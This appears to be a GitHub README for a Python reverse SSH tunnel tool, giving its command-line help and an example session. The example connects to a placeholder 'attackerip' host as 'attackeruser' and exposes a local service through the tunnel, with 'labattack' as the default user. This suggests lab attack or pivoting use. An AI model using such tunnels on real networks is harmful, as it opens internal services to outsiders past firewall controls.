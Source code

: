 # SSHReverse
This Python script provides a command-line interface for creating reverse SSH tunnels. It utilizes the Paramiko library to establish secure connections and forward remote ports back to your local machine, enabling access to services behind firewalls or NAT.


```bash
py .\rforward.py -h
usage: rforward.py [-h] [-q] [-p REMOTE_PORT] [-u USER] [-K KEY] [--no-key] [-P] -r host:port server

Reverse SSH tunnel.

positional arguments:
  server                SSH server [host:port]

options:
  -h, --help            show this help message and exit
  -q, --quiet           Squelch all informational output
  -p, --remote-port REMOTE_PORT
                        Port on server to forward (default: 4000)
  -u, --user USER       Username for SSH authentication (default: labattack)
  -K, --key KEY         Private key file to use for SSH authentication
  --no-key              Don't look for or use a private key file
  -P, --password        Read password (for key or password auth) from stdin
  -r, --remote host:port
                        Remote host and port to forward to
```
# Example:

```bash
py .\rforward.py attackerip -p 8081 -r 127.0.0.1:8080 -u attackeruser -P
Enter SSH password:
Now forwarding remote port 8081 to 127.0.0.1:8080 ...
Connected! Tunnel open ('127.0.0.1', 47098) -> ('attackerip', 22) -> ('127.0.0.1', 8080)
Tunnel closed from ('127.0.0.1', 47098)
Connected! Tunnel open ('127.0.0.1', 47112) -> ('attackerip8', 22) -> ('127.0.0.1', 8080)
Tunnel closed from ('127.0.0.1', 47112)
